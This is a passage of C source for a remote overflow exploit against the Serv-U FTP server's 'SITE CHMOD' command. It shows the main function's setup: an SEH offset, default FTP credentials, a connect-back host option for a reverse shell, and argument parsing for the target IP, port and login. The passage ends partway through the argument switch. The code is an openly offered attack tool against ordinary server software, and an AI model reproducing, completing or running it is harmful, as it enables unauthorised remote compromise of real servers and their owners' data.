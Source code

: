    void main(int argc, char **argv)
    {
        struct  sockaddr_in sa, server, client;
        WSADATA wsd;
        SOCKET  s, s2, s3;
        int iErr, ret, len;
        char    szRecvBuff[MAX_LEN];
        int i, j, iType;
        int iPort=21;
        char    *ip=NULL, *pUser="ftp", *pPass="ftp@ftp.com", *cbHost=NULL;
        char    user[128], pass[128];
        BOOL    bCb=FALSE, bLocal=TRUE;
        unsigned short  shport=53, shport2=0;
        unsigned long   cbip;
        unsigned int    timeout=5000, Reuse;
        char    penetrate[255],cbHost2[20];
        int seh_offset;

        printf( "Serv-U FTPD 3.x/4.x \"SITE CHMOD\" remote overflow exploit V%s\r\n"
            "Bug find by kkqq kkqq@0x557.org, Code By lion (lion@cnhonker.net)\r\n"
            "Welcome to HUC website http://www.cnhonker.com\r\n\n"
                , VERSION);

        seh_offset = SEH_OFFSET;

        if(argc < 4)
        {
            usage(argv[0]);
            return;
        }

        for(i=1;i<argc;i+=2)
        {
            if(strlen(argv[i]) != 2)
            {
                usage(argv[0]);
                return;
            }
            // check parameter
            if(i == argc-1)
            {
                usage(argv[0]);
                return;
            }
            switch(argv[i][1])
            {
                case 'i':
                    ip=argv[i+1];
                    break;
                case 't':
                    iType = atoi(argv[i+1]);
                    break;
                case 'f':
                    iPort=atoi(argv[i+1]);
                    break;
                case 'p':
                    pPass = argv[i+1];
                    break;
                case 'u':
                    pUser=argv[i+1];
                    break;
                case 'c':
                    cbHost=argv[i+1];
                    bCb=TRUE;
                    break;